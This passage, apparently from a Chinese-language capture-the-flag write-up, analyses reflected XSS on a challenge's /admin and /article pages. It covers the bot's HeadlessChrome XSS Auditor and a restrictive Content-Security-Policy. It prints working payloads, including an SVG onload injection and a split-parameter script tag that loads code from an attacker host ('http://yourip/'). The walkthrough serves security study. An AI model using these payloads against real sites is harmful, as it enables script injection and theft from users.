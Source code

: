 ![](bypasses-everywhere_05.png)

但兩個頁面各別有不同的限制存在。

第一個 `/admin` 頁面若是在 Firefox 上則可以很容易的執行任何 JavaScript，例如：`/admin?picture="><svg/onload="alert(document.domain)`，但各位應該也注意到，先前送出 Url 後收到的請求中有提示目標的 `User-Agent` 是 `HeadlessChrome/73.0.3683.75`，Chrome 本身自帶 XSS Auditor，單一參數的 Reflected XSS 很容易被 Chrome 阻擋，加上版本還蠻新的，要繞過 Auditor 會十分困難。

第二個 `/article` 頁面有兩個參數可注入，而且注入位置連接在一起，這樣很容易構造出能繞過 Auditor 的反射型 XSS Payload，例如：`/article?time=<script/src="&unit=http://yourip/">`。雖然這邊可繞過 Auditor，但有更加棘手的限制就是該頁面設定了 CSP `Content-Security-Policy: script-src www.google.com; img-src *; default-src 'none'; style-src 'unsafe-inline'`